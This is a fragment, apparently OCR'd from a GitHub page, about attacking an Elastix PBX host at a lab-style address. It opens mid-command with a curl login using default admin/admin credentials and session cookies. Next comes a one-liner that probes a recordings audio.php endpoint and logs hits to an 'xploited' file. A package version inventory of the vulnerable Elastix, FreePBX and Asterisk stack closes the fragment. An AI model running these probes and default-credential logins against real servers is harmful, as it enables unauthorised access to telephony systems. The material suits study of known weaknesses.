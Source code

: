
elastixSession=716ratk092555gl0b3gtvt8fo7;UICSESSION=rporp4c88hg63sipssop3kdmn2;ARI=b8e4h6vfg0jouquhkcblsouhk0" --data "username=admin&password=admin&submit=btnSubmit" >/dev/null http://10.10.10.7/recordings/index.php

if curl -ks -m10 "http://10.10.10.7/recordings/misc/audio.php" --cookie "lang=id" | grep asterisk >/dev/null;then echo "127.0.0.1/recordings/misc/audio.php" | tee -a xploited_new.txt;fi


Versions
```
Kernel
   Linux(i386)-2.6.18-238.12.1.el5

 Elastix
   elastix-2.2.0-14
   elastix-firstboot-2.2.0-5
   elastix-system-2.2.0-14
   elastix-email_admin-2.2.0-9
   elastix-vtigercrm-5.1.0-8
   elastix-extras-2.0.4-4
   elastix-asterisk-sounds-1.2.3-1
   elastix-my_extension-2.2.0-5
   elastix-agenda-2.2.0-5
   elastix-a2billing-1.8.1-16
   elastix-addons-2.2.0-4
   elastix-im-2.0.4-2
   elastix-pbx-2.2.0-14
   elastix-pr-2.0-2
   elastix-security-2.2.0-7
   elastix-reports-2.2.0-6
   elastix-fax-2.2.0-4

 RounCubeMail
   RoundCubeMail-0.3.1-10

 Mail
   postfix-2.3.3-2.3.el5_6
   cyrus-imapd-2.3.7-7.el5_6.4

 IM
   openfire-3.5.1-2

 FreePBX
   freePBX-2.8.1-7

 Asterisk
   asterisk-1.8.7.0-0
   asterisk-perl-0.10-2
   asterisk-addons-1.8.7.0-0

 FAX
   hylafax-4.3.10-2rhel5
   iaxmodem-1.2.0-1.1

 DRIVERS
   dahdi-2.4.1.2-5
   rhino-0.99.4-2.rc1
   wanpipe-util-3.5.23-1
```
